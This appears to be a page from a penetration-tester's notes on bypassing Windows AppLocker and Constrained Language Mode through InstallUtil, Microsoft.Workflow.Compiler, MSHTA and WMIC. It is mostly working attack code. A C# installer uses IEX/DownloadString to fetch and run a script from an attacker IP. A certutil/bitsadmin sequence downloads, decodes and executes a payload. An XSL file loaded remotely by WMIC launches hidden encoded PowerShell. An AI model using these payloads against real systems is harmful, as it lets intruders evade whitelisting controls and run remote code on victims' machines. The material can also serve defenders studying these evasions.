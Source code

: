 # AppLocker Bypass

* [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)
* [https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html](https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html)
* [https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html](https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html)
* [https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll](https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll)




## InstallUtil

A combination of AppLocker and CLM bypass:

{% code title="BypassCLM.cs" %}
```cs
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace BypassCLM
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("These aren't the droids you're looking for.");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
Add a reference for the `System.Management.Automation` assembly before compilation from path:
```
C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35
```
{% endhint %}

Upload and execute:

```
Attacker > certutil -encode C:\Users\Offsec\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe bypass.txt
Victim > bitsadmin /Transfer myJob http://10.10.13.37/bypass.txt C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > certutil -decode C:\Windows\System32\spool\drivers\color\bypass.txt C:\Windows\System32\spool\drivers\color\bypass.exe && del C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\System32\spool\drivers\color\bypass.exe
```




## Microsoft.Workflow.Compiler.exe

```
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe info.xml payload.txt
```

{% code title="info.xml" %}
```xml
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
<d2p1:string>payload.txt</d2p1:string>
</files>
<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<d2p1:checkTypes>false</d2p1:checkTypes>
<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
<d2p1:compilerOptions i:nil="true" />
<d2p1:generateCCU>false</d2p1:generateCCU>
<d2p1:languageToUse>CSharp</d2p1:languageToUse>
<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
<d2p1:mtInfo i:nil="true" />
<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
</parameters>
</CompilerInput>
```
{% endcode %}

{% code title="payload.txt" %}
```cs
using System;
using System.Diagnostics;
using System.Workflow.Activities;
 
public class Foo : SequentialWorkflowActivity {
      public Foo() {
          Process process = new Process();
          // Configure the process using the StartInfo properties.
          process.StartInfo.FileName = "powershell.exe";
          process.StartInfo.Arguments = "-WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>";
          process.StartInfo.WindowStyle = ProcessWindowStyle.Normal;
          process.Start();
          process.WaitForExit();
      }
}
```
{% endcode %}




## JScript and MSHTA

Full path to `.hta` file is required:

```
Cmd > mshta.exe \users\snovvcrash\cmd.hta
```

{% code title="cmd.hta" %}
```
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
{% endcode %}




# WMIC

```
Cmd > wmic os get /format:"evil.xsl"
Cmd > wmic process get brief /format:"http://10.10.13.37/evil.xsl"
```

{% code title="evil.xsl" %}
```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>");
		]]>
	</ms:script>
</stylesheet>
```
{% endcode %}
